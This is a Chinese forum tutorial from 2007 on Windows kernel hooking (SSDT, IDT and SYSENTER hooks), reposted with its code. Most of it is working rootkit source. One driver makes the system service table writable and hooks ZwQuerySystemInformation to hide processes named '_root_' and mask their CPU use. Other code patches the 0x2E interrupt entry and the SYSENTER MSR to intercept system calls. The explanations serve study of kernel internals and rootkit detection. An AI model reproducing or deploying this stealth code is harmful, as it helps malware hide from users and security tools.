





# 必备绝技——hook 大法( 中 )

> 原文：[`www.pediy.com/kssd/pediy09/pediy09-115.htm`](https://www.pediy.com/kssd/pediy09/pediy09-115.htm)
> 【文章标题】: 必备绝技——hook 大法( 中 )  
> 【文章作者】: LvG  
> 【作者邮箱】: LvG2008@gmail.com  
> 【作者声明】: 只是感兴趣，没有其他目的。失误之处敬请诸位大侠赐教!  
> \--------------------------------------------------------------------------------  
> 【详细过程】  
> 这次主要说说核心层的 hook。包括 `SSDT-hook`，`IDT-hook`，`sysenter-hook`。欢迎讨论，指正！内核层需要驱动，有这方面的基础最好，如果不会，了解下其中的思路也可以的。  
> II. `SSDT-hook`,`IDT-hook`，`sysenter-hook`  
> 一.`SSDT-hook`  
> (一)一般思路:  
> 1.先来了解一下,什么是 `SSDT`  
> `SSDT` 既 `System Service Dispath Table`。在了解他之前，我们先了解一下 `NT` 的基本组建。在 `Windows NT` 下，`NT` 的 `executive`（`NTOSKRNL.EXE` 的一部分）提供了核心系统服务。各种 `Win32`、`OS/2` 和 `POSIX` 的 `APIs` 都是以 `DLL` 的形式提供的。这些 `dll` 中的 `APIs` 转过来调用了 `NT executive` 提供的服务。尽管调用了相同的系统服务，但由于子系统不同，`API` 函数的函数名也不同。例如，要用 `Win32 API` 打开一个文件，应用程序会调用 `CreateFile()`，而要用 `POSIX API`，则应用程序调用 `open()` 函数。这两种应用程序最终都会调用 `NT executive` 中的 `NtCreateFile()` 系统服务。  
> 系统组建.jpg  
>   
> 用户模式（User mode）的所有调用，如 `Kernel32`, `User32.dll`, `Advapi32.dll` 等提供的 `API`，最终都封装在 `Ntdll.dll` 中,然后通过 `Int 2E` 或 `SYSENTER` 进入到内核模式，通过服务 `ID`,在 `System Service Dispatcher Table` 中分派系统函数，举个具体的例子，再如下图  
> 调用过程.jpg  
>   
> 从上可知，`SSDT` 就是一个表，这个表中有内核调用的函数地址。从上图可见，当用户层调用 `FindNextFile` 函数时，最终会调用内核层的 `NtQueryDirectoryFile` 函数，而这个函数的地址就在 `SSDT` 表中，如果我们事先把这个地址改成我们特定函数的地址，那么，哈哈。。。。。。。下来详细了解一下，`SSDT` 的结构，如下图：  
> `SSDT.jpg`  
>   
> `KeServiceDescriptorTable`：是由内核（`Ntoskrnl.exe`）导出的一个表，这个表是访问 `SSDT` 的关键，具体结构是  
> ```c
> typedef struct ServiceDescriptorTable {
>     PVOID ServiceTableBase;
>     PVOID ServiceCounterTable(0);
>     unsigned int NumberOfServices;
>     PVOID ParamTableBase;
> }
> ```
> 其中，  
> `ServiceTableBase` `System Service Dispatch Table` 的基地址。  
> `NumberOfServices` 由 `ServiceTableBase` 描述的服务的数目。  
> `ServiceCounterTable` 此域用于操作系统的 `checked builds`，包含着 `SSDT` 中每个服务被调用次数的计数器。这个计数器由 `INT 2Eh` 处理程序 (`KiSystemService`)更新。  
> `ParamTableBase` 包含每个系统服务参数字节数表的基地址。  
> `System Service Dispath Table`（`SSDT`）：系统服务分发表，给出了服务函数的地址，每个地址 4 子节长。  
> `System Service Parameter Table`(`SSPT`)：系统服务参数表，定义了对应函数的参数字节，每个函数对应一个字节。如在 `0x804AB3BF` 处的函数需 `0x18` 字节的参数。  
> 还有一种这样的表，叫 `KeServiceDescriptorTableShadow`，它主要包含 `GDI` 服务，也就是我们常用的和窗口，桌面有关的，具体存在于 `Win32k.sys`。在如图：  
> 服务分发.jpg  
>   
> 右侧的服务分发就通过 `KeServiceDescriptorTableShadow`。  
> 那么下来该咋办呢？下来就是去改变 `SSDT` 所指向的函数，使之指向我们自己的函数。  
> 2．Hook 前的准备-改变 `SSDT` 内存的保护  
> 系统对 `SSDT` 都是只读的，不能写。如果试图去写，等你的就是蓝脸。一般可以修改内存属性的方法有：通过 `cr0` 寄存器及 `Memory Descriptor List(MDL)`。  
> （1）改变 `CR0` 寄存器的第 1 位  
> `Windows` 对内存的分配，是采用的分页管理。其中有个 `CR0` 寄存器，如下图：  
> `CR0.jpg`  
>   
> 其中第 1 位叫做保护属性位，控制着页的读或写属性。如果为 1，则可以读/写/执行；如果为 0，则只可以读/执行。`SSDT`，`IDT` 的页属性在默认下都是只读，可执行的，但不能写。所以现在要把这一位设置成 1。  
> （2）通过 `Memory Descriptor List(MDL)`  
> 也就是把原来 `SSDT` 的区域映射到我们自己的 `MDL` 区域中，并把这个区域设置成可写。`MDL` 的结构：  
> ```c
> typedef struct _MDL {
>     struct _MDL *Next;
>     CSHORT Size;
>     CSHORT MdlFlags; //关键在这里，将来设置成 MDL_MAPPED_TO_SYSTEM_VA ，这样一来，这块区域就可写
>     struct _EPROCESS *Process;
>     PVOID MappedSystemVa;
>     PVOID StartVa;
>     ULONG ByteCount;
>     ULONG ByteOffset;
> } MDL, *PMDL;
> ```
> 首先需要知道 `KeServiceDscriptorTable` 的基址和入口数，这样就可以用 `MmCreateMdl` 创建一个有起始地址和大小的内存区域。然后把这个 `MDL` 结构的 `flag` 改成  
> `MDL_MAPPED_TO_SYSTEM_VA` ，那么这个区域就可以写了。最后把这个内存区域调用 `MmMapLockedPages` 锁定在内存中。大体框架如下：  
> ```c
> //先声明一个 System Service Descriptor Table，我们知道 SSDT 及 SSPT 都从这个表中指向
> #pragma pack(1)
> typedef struct ServiceDescriptorEntry {
>     unsigned int *ServiceTableBase;
>     unsigned int *ServiceCounterTableBase;
>     unsigned int NumberOfServices;
>     unsigned char *ParamTableBase;
> } SSDT_Entry;
> #pragma pack()
> __declspec(dllimport) SSDT_Entry KeServiceDescriptorTable;
> 
> PMDL g_pmdlSystemCall;
> PVOID *MappedSystemCallTable;
> // 代码
> // 保存原系统调用位置
> // 映射我们的区域
> g_pmdlSystemCall = MmCreateMdl(NULL,
>     KeServiceDescriptorTable.ServiceTableBase,
>     KeServiceDescriptorTable.NumberOfServices*4);
> 
> if(!g_pmdlSystemCall)
>     return STATUS_UNSUCCESSFUL;
> 
> MmBuildMdlForNonPagedPool(g_pmdlSystemCall);
> // 改变 MDL 的 flags
> g_pmdlSystemCall->MdlFlags = g_pmdlSystemCall->MdlFlags |
>     MDL_MAPPED_TO_SYSTEM_VA;
> //在内存中索定，不让换出
> MappedSystemCallTable = MmMapLockedPages(g_pmdlSystemCall, KernelMode);
> ```
> 现在遇到的第一个问题解决了，但接着面临另外一个问题，如何获得 `SSDT` 中函数的地址呢？  
> 3．四个有用的宏  
> `SYSTEMSERVICE macro`：可以获得由 `ntoskrnl.exe` 导出函数,以 `Zw*`开头函数的地址，这个函数的返回值就是 `Nt*`函数，`Nt*`函数的地址就在 `SSDT` 中  
> `SYSCALL_INDEX macro`：获得 `Zw*`函数的地址并返回与之通信的函数在 `SSDT` 中的索引。  
> 这两个宏之所以能工作，是因为所有的 `Zw*`函数都开始于 `opcode`：`MOV eax, ULONG`，这里的 `ULONG` 就是系统调用函数在 `SSDT` 中的索引。  
> `HOOK_SYSCALL` 和 `UNHOOK_SYSCALL macros`：获得 `Zw*`函数的地址，取得他的索引，自动的交换 `SSDT` 中索引所对应的函数地址和我们 `hook` 函数的地址。  
> 这四个宏具体是：  
> ```c
> #define SYSTEMSERVICE(_func) \
>     KeServiceDescriptorTable.ServiceTableBase[ *(PULONG)((PUCHAR)_func+1)]
> 
> #define SYSCALL_INDEX(_Function) *(PULONG)((PUCHAR)_Function+1)
> 
> #define HOOK_SYSCALL(_Function, _Hook, _Orig )       \
>     _Orig = (PVOID) InterlockedExchange( (PLONG) \
>         &MappedSystemCallTable[SYSCALL_INDEX(_Function)], (LONG) _Hook)
> 
> #define UNHOOK_SYSCALL(_Func, _Hook, _Orig )  \
>     InterlockedExchange((PLONG)           \
>         &MappedSystemCallTable[SYSCALL_INDEX(_Func)], (LONG) _Hook)
> ```
> 4．小试牛刀：利用 `SSDT Hook` 隐藏进程  
> 我们所熟知的任务管理器，能察看系统中的所有进程及其他很多信息，这是由于调用了一个叫 `ZwQuerySystemInformation` 的内核函数，具体结构是：  
> ```c
> NTSTATUS NewZwQuerySystemInformation(
>     IN ULONG SystemInformationClass,  //如果这值是 5，则代表系统中所有进程信息
>     IN PVOID SystemInformation,  //这就是最终列举出的信息，和上面的值有关
>     IN ULONG SystemInformationLength, //后两个不重要
>     OUT PULONG ReturnLength)
> ```
> 如果用我们自己函数，这个函数可以把我们关心的进程过滤掉，再把它与原函数调换，则可达到隐藏的目的，大体思路如下：  
> （1） 突破 `SSDT` 的内存保护，如上所用的 `MDL` 方法  
> （2） 实现自己的 `NewZwQuerySystemInformation` 函数，过滤掉以某些字符开头的进程  
> （3） 用上面介绍的宏来交换 `ZwQuerySystemInformation` 与我们自己的 `New*`函数  
> （4） 卸载 `New*`函数，完成  
> 具体实例：来自 `Rootkit.com`，我做了注释，代码也很精小。  
> ```c
> #include "ntddk.h"
> #pragma pack(1)
> typedef struct ServiceDescriptorEntry {
>         unsigned int *ServiceTableBase;
>         unsigned int *ServiceCounterTableBase; //仅适用于 checked build 版本
>         unsigned int NumberOfServices;
>         unsigned char *ParamTableBase;
> } ServiceDescriptorTableEntry_t, *PServiceDescriptorTableEntry_t;
> #pragma pack()
> __declspec(dllimport)  ServiceDescriptorTableEntry_t KeServiceDescriptorTable;
> //获得 SSDT 基址宏
> #define SYSTEMSERVICE(_function)  KeServiceDescriptorTable.ServiceTableBase[ *(PULONG)((PUCHAR)_function+1)]
> 
> PMDL  g_pmdlSystemCall;
> PVOID *MappedSystemCallTable;
> //获得函数在 SSDT 中的索引宏
> #define SYSCALL_INDEX(_Function) *(PULONG)((PUCHAR)_Function+1)
> //调换自己的 hook 函数与原系统函数的地址
> #define HOOK_SYSCALL(_Function, _Hook, _Orig )  \
>       _Orig = (PVOID) InterlockedExchange( (PLONG) &MappedSystemCallTable[SYSCALL_INDEX(_Function)], (LONG) _Hook)
> //卸载 hook 函数
> #define UNHOOK_SYSCALL(_Function, _Hook, _Orig )  \
>       InterlockedExchange( (PLONG) &MappedSystemCallTable[SYSCALL_INDEX(_Function)], (LONG) _Hook)
> 
> //声明各种结构
> struct _SYSTEM_THREADS
> {
>         LARGE_INTEGER           KernelTime;
> ```


```c
LARGE_INTEGER           UserTime;
LARGE_INTEGER           CreateTime;
ULONG                   WaitTime;
PVOID                   StartAddress;
CLIENT_ID               ClientIs;
KPRIORITY               Priority;
KPRIORITY               BasePriority;
ULONG                   ContextSwitchCount;
ULONG                   ThreadState;
KWAIT_REASON            WaitReason;
};

struct _SYSTEM_PROCESSES
{
    ULONG                   NextEntryDelta;
    ULONG                   ThreadCount;
    ULONG                   Reserved[6];
    LARGE_INTEGER           CreateTime;
    LARGE_INTEGER           UserTime;
    LARGE_INTEGER           KernelTime;
    UNICODE_STRING          ProcessName;
    KPRIORITY               BasePriority;
    ULONG                   ProcessId;
    ULONG                   InheritedFromProcessId;
    ULONG                   HandleCount;
    ULONG                   Reserved2[2];
    VM_COUNTERS             VmCounters;
    IO_COUNTERS             IoCounters; //windows 2000 only
    struct _SYSTEM_THREADS  Threads[1];
};

// Added by Creative of rootkit.com
struct _SYSTEM_PROCESSOR_TIMES
{
    LARGE_INTEGER           IdleTime;
    LARGE_INTEGER           KernelTime;
    LARGE_INTEGER           UserTime;
    LARGE_INTEGER           DpcTime;
    LARGE_INTEGER           InterruptTime;
    ULONG                   InterruptCount;
};

NTSYSAPI
NTSTATUS
NTAPI ZwQuerySystemInformation(
    IN ULONG SystemInformationClass,
    IN PVOID SystemInformation,
    IN ULONG SystemInformationLength,
    OUT PULONG ReturnLength);

typedef NTSTATUS (*ZWQUERYSYSTEMINFORMATION)(
    ULONG SystemInformationCLass,
    PVOID SystemInformation,
    ULONG SystemInformationLength,
    PULONG ReturnLength
);

ZWQUERYSYSTEMINFORMATION        OldZwQuerySystemInformation;

// Added by Creative of rootkit.com
LARGE_INTEGER           m_UserTime;
LARGE_INTEGER           m_KernelTime;

//我们的 hook 函数，过滤掉以"_root_"开头的进程
NTSTATUS NewZwQuerySystemInformation(
    IN ULONG SystemInformationClass,
    IN PVOID SystemInformation,
    IN ULONG SystemInformationLength,
    OUT PULONG ReturnLength)
{

    NTSTATUS ntStatus;

    ntStatus = ((ZWQUERYSYSTEMINFORMATION)(OldZwQuerySystemInformation)) (
         SystemInformationClass,
         SystemInformation,
         SystemInformationLength,
         ReturnLength );

    if( NT_SUCCESS(ntStatus))
    {
        // Asking for a file and directory listing
        if(SystemInformationClass == 5)
        {
        // 列举系统进程链表
        // 寻找以"_root_"开头的进程

            struct _SYSTEM_PROCESSES *curr = (struct _SYSTEM_PROCESSES *)SystemInformation;
            struct _SYSTEM_PROCESSES *prev = NULL;

            while(curr)
            {
            //DbgPrint("Current item is %x\n", curr);
            if (curr->ProcessName.Buffer != NULL)
            {
              if(0 == memcmp(curr->ProcessName.Buffer, L"_root_", 12))
              {
                m_UserTime.QuadPart += curr->UserTime.QuadPart;
                m_KernelTime.QuadPart += curr->KernelTime.QuadPart;

                if(prev) // Middle or Last entry
                {
                  if(curr->NextEntryDelta)
                    prev->NextEntryDelta += curr->NextEntryDelta;
                  else  // we are last, so make prev the end
                    prev->NextEntryDelta = 0;
                }
                else
                {
                  if(curr->NextEntryDelta)
                  {
                    // we are first in the list, so move it forward
                    (char *)SystemInformation += curr->NextEntryDelta;
                  }
                  else // we are the only process!
                    SystemInformation = NULL;
                }
              }
            }
            else // Idle process 入口
            {
             // 把_root_ 进程的时间加给 Idle 进程，Idle 称空闲时间

              curr->UserTime.QuadPart += m_UserTime.QuadPart;
              curr->KernelTime.QuadPart += m_KernelTime.QuadPart;

              // 重设时间，为下一次过滤
              m_UserTime.QuadPart = m_KernelTime.QuadPart = 0;
            }
            prev = curr;
              if(curr->NextEntryDelta) ((char *)curr += curr->NextEntryDelta);
              else curr = NULL;
            }
        }
        else if (SystemInformationClass == 8) // 列举系统进程时间
        {
            struct _SYSTEM_PROCESSOR_TIMES * times = (struct _SYSTEM_PROCESSOR_TIMES *)SystemInformation;
            times->IdleTime.QuadPart += m_UserTime.QuadPart + m_KernelTime.QuadPart;
        }

    }
    return ntStatus;
}

VOID OnUnload(IN PDRIVER_OBJECT DriverObject)
{
    DbgPrint("ROOTKIT: OnUnload called\n");

    // 卸载 hook
    UNHOOK_SYSCALL( ZwQuerySystemInformation, OldZwQuerySystemInformation, NewZwQuerySystemInformation );

    // 解索并释放 MDL
    if(g_pmdlSystemCall)
    {
        MmUnmapLockedPages(MappedSystemCallTable, g_pmdlSystemCall);
        IoFreeMdl(g_pmdlSystemCall);
    }
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT theDriverObject,
    IN PUNICODE_STRING theRegistryPath)
{
    // 注册一个卸载的分发函数，与与应用层沟通
    theDriverObject->DriverUnload  = OnUnload;

    // 初始化全局时间为零
    // 这将会解决时间问题，如果不这样，尽管隐藏了进程，但时间的消耗会不变，cpu 100%
    m_UserTime.QuadPart = m_KernelTime.QuadPart = 0;

    // 储存旧的函数地址
    OldZwQuerySystemInformation =(ZWQUERYSYSTEMINFORMATION)(SYSTEMSERVICE(ZwQuerySystemInformation));

    // 把 SSDT 隐射到我们的区域，以便修改它为可写属性
    g_pmdlSystemCall = MmCreateMdl(NULL, KeServiceDescriptorTable.ServiceTableBase, KeServiceDescriptorTable.NumberOfServices*4);
    if(!g_pmdlSystemCall)
        return STATUS_UNSUCCESSFUL;

    MmBuildMdlForNonPagedPool(g_pmdlSystemCall);

    // 改变 MDL 的 Flags 属性为可写，既然可写当然可读，可执行
    g_pmdlSystemCall->MdlFlags = g_pmdlSystemCall->MdlFlags | MDL_MAPPED_TO_SYSTEM_VA;

    MappedSystemCallTable = MmMapLockedPages(g_pmdlSystemCall, KernelMode);

    // 用了宏，把原来的 Zw*替换成我们的 New*函数。至此已完成了我们的主要两步，先突破了 SSDT 的保护，接着用宏更改了目标函数，下来就剩下具体的过滤任务了
    HOOK_SYSCALL( ZwQuerySystemInformation, NewZwQuerySystemInformation, OldZwQuerySystemInformation );


    return STATUS_SUCCESS;
}
```

## 二．IDT hook

### （一）基本思路
`IDT`（`Interrupt Descriptor Table`）中断描述符表，是用来处理中断的。中断就是停下现在的活动，去完成新的任务。一个中断可以起源于软件或硬件。比如，出现页错误，调用 `IDT` 中的 `0x0E`。或用户进程请求系统服务(`SSDT`)时，调用 `IDT` 中的 `0x2E`。而系统服务的调用是经常的，这个中断就能触发。我们现在就想办法，先在系统中找到 `IDT`，然后确定 `0x2E` 在 `IDT` 中的地址，最后用我们的函数地址去取代它，这样以来，用户的进程（可以特定设置）一调用系统服务，我们的 `hook` 函数即被激发。

### （二）需解决的问题
从上面分析可以看出，我们大概需要解决这几个问题：

1.  `IDT` 如何获取呢？`SIDT` 指令可以办到，它可以在内存中找到 `IDT`，返回一个 `IDTINFO` 结构的地址。这个结构中就含有 `IDT` 的高半地址和低半地址。为了方便把这两个半地址合在一起，我们可以用一个宏。`IDTINFO`，和宏的结构如下：

```c
typedef struct
{
    WORD IDTLimit;
    WORD LowIDTbase;  //IDT 的低半地址
    WORD HiIDTbase;    //IDT 的高半地址
} IDTINFO;
```

方便获取地址存取的宏


## 2. 获取中断入口地址

`#define MAKELONG(a, b)((LONG)(((WORD)(a))|((DWORD)((WORD)(b)))<< 16))`

`IDT` 有最多 256 个入口，我们现在要的是其中的 `0x2E`，这个中断号的入口地址如何获取呢？

```c
#pragma pack(1)
typedef struct {
    WORD LowOffset;           //入口的低半地址
    WORD selector;
    BYTE unused_lo;
    unsigned char unused_hi:5;     // stored TYPE ?
    unsigned char DPL:2;
    unsigned char P:1;         // vector is present
    WORD HiOffset;          //入口地址的低半地址
} IDTENTRY;
#pragma pack()
```

知道了这个入口结构，就相当于知道了每间房（可以把 `IDT` 看作是一排有 256 间房组成的线性结构）的长度。我们先获取所有的入口 `idt_entries`，那么第 `0x2E` 个房间的地址也就可以确定了，即 `idt_entries[0x2E]`。

## 3. 改写原中断地址

如果得到了 `0x2e` 的地址，如何用我们的 `hook` 地址改写原中断地址呢？见以下核心代码：

```c
DWORD KiRealSystemServiceISR_Ptr; // 真正的 2E 句柄，保存以便恢复 hook
#define NT_SYSTEM_SERVICE_INT 0x2e

//我们的 hook 函数
int HookInterrupts() {
    IDTINFO idt_info;         //SIDT 将返回的结构
    IDTENTRY* idt_entries;    //IDT 的所有入口
    IDTENTRY* int2e_entry;    //我们目标的入口

    __asm{
        sidt idt_info;        //获取 IDTINFO
    }

    //获取所有的入口
    idt_entries = (IDTENTRY*)MAKELONG(idt_info.LowIDTbase, idt_info.HiIDTbase);

    //保存真实的 2e 地址
    KiRealSystemServiceISR_Ptr =
        MAKELONG(idt_entries[NT_SYSTEM_SERVICE_INT].LowOffset,
                 idt_entries[NT_SYSTEM_SERVICE_INT].HiOffset);

    //获取 0x2E 的入口地址
    int2e_entry = &(idt_entries[NT_SYSTEM_SERVICE_INT]);

    __asm{
        cli;                  // 屏蔽中断，防止被打扰
        lea eax,MyKiSystemService; // 获得我们 hook 函数的地址，保存在 eax
        mov ebx, int2e_entry; // 0x2E 在 IDT 中的地址，ebx 中分地高两个半地址
        mov [ebx],ax;         // 把我们 hook 函数的地半地址写入真是第半地址
        shr eax,16            //eax 右移 16，得到高半地址
        mov [ebx+6],ax;       // 写入高半地址
        sti;                  //开中断
    }

    return 0;
}
```

具体代码见：[www.rootkit.com/vault/fuzen_op/strace_Fuzen.zip](http://www.rootkit.com/vault/fuzen_op/strace_Fuzen.zip)

### 注意点

1. 每个处理器都有个 `IDT`，所以对于多 CPU 一定要注意，所有的 `IDT` 都要 `hook`。
2. 在 `winxp`, `win2k3`, `vsta` 下失效。

## 三. SYSENTRY hook

为了性能的考虑，xp 后的系统都改用 `sysentry` 命令来进入 `ring0`，去调用 `SSDT` 中的服务，不再是通过 `IDT` 中的 `int 2E`。这也使得我们 `hook` 也变得相对容易了。

首先获得 `sysentry` 的地址，然后改之，不用再考虑 `IDT` 了。见下面的代码：

```c
#include "ntddk.h"

ULONG d_origKiFastCallEntry; // 原 ntoskrnl!KiFastCallEntry 地址

VOID OnUnload( IN PDRIVER_OBJECT DriverObject ) {
    DbgPrint("ROOTKIT: OnUnload called\n");
}

// Hook function
__declspec(naked) MyKiFastCallEntry() {
    __asm {
        jmp [d_origKiFastCallEntry]  //这啥都没做，换成你想干的
    }
}

NTSTATUS DriverEntry( IN PDRIVER_OBJECT theDriverObject, IN PUNICODE_STRING theRegistryPath ) {
    theDriverObject->DriverUnload = OnUnload;

    __asm {
        mov ecx, 0x176
        rdmsr                   // 读 IA32_SYSENTER_EIP 寄存器值，存有 sysenter 的地址
        mov d_origKiFastCallEntry, eax //保存原值，以便恢复
        mov eax, MyKiFastCallEntry     // hook 函数地址
        wrmsr                   // 将 hook 函数移入 IA32_SYSENTER_EIP 寄存器
    }

    return STATUS_SUCCESS;
}
```

基本的改变数据结构的 `hook` 就说到这里，当然还有 `DKOM` 这种高级的技术，有兴趣的自己去看看吧。

*by LvG（吕歌）*

**参考文献：**
* <<Rootkits: Subverting the Windows Kernel>> rootkit.com
* <<widows internals>> <<Undocumented NT>>

---
*2007 年 04 月 09 日 23:12:24*
